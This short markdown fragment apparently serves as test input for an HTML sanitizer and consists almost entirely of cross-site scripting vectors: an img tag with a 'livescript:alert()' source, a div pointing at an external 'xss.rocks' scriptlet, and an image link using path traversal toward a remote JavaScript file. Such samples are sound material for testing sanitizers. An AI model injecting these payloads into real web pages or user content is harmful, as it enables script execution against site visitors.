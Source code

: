 ![

<img src="livescript:alert()" LOWSRC="" src="">

<div BACKGROUND="" src=http://xss.rocks/scriptlet.html>a</div>


](()
![a](../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js)
